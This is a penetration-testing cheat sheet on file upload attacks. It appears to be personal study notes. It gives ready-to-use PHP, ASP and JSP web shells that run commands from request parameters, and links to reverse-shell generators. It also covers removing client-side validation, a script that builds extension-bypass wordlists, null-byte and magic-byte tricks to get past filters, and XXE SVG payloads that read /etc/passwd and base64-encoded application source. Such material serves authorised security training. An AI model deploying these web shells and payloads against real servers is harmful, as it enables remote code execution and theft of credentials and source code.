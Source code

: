 
> [!NOTE] Important
> Fuzzing allowed file extensions is an important exercise for any file upload attack. It enables us to explore what attacks may be achievable on the web server. So, let's explore some of these attacks.


PHP Webshell
```php
<?php echo "Pwn3d!";?>
<?php system($_GET['cmd']) ?> 
<?php system($_REQUEST['cmd']) ?> 
<?php system("ping -c 5 10.10.14.6") ?> 
<?php echo shell_exec($_GET['cmd']); ?>
<?php echo shell_exec($_REQUEST['cmd']); ?>
```
ASP Webshell
```asp
<% eval request('cmd') %>
```
JSP Websell
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
Reverse Shells
https://www.revshells.com/
https://github.com/pentestmonkey/php-reverse-shell
https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx

### Disabling Front-end Validation
Check source code with page inspector and look for something like the following:
```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">

<form action="upload.php" method="POST" enctype="multipart/form-data" id="uploadForm" onSubmit="if(validate()){upload()}">
```
Delete the lines of code that are performing the validation `checkFile(this)` `accept=".jpg,.jpeg,.png"`

> [!NOTE] Note
> We can check the contents of the Javascript function `checkFile()` by going into the web console [CTRL+SHIFT+K] and typing in `checkFile`

### Blacklist Bypass
Fuzz which extensions are allowed using Burp Intruder and Sniper. 
Review which extensions get denied via error message or content length
```shell
~/opt/wordlists/php-ext.txt

<?php system("id") ?>
```

> [!NOTE] Note
> Try with and without URL encoding
### Whitelist Bypass
Double extensions and reverse extensions can be used (`.php.jpg`).
Special characters like null bytes `%00` can be used to make the application misread the file extension and allow the file to be uploaded.

> [!NOTE] Note
> `:` seems to work very well with IIS servers i.e. `shell.aspx:.jpg`

Bash script for adding special characters and double extensions to wordlist
```shell
for char in "%20" "%0a" "%00" "%0d0a" "/" '.\\' "." "..." ":"; do
    for ext in '.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm' ; do
        echo "$char$ext.jpg" >> php-ext-bypass.txt
        echo "$ext$char.jpg" >> php-ext-bypass.txt
        echo ".jpg$char$ext" >> php-ext-bypass.txt
        echo ".jpg$ext$char" >> php-ext-bypass.txt
    done
done
```
1. Fuzz double extensions
2. Fuzz with null-bytes / special characters (don't forget to URL encode them when executing)
### Type Filters (magic byte)
1. Fuzz the **content type** using the `image-content-types.txt` wordlist in Burp Intruder
2. Bypass the MIME filter by adding `GIF8` or `.PNG...` before the payload

We can try using an `Allowed MIME type with a disallowed Content-Type`, an `Allowed MIME/Content-Type with a disallowed extension`, or a `Disallowed MIME/Content-Type with an allowed extension`, and so on

### Read Source Code w/ XXE
Similar attacks can be carried to lead to XXE exploitation. With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server.

> [!NOTE] Note
> This can be very useful for reading source code to find more hidden directories, embedded SQL passwords, API keys and more 


Read the contents of `/etc/passwd` using a malicious SVG image
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
Read source code of web application
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>

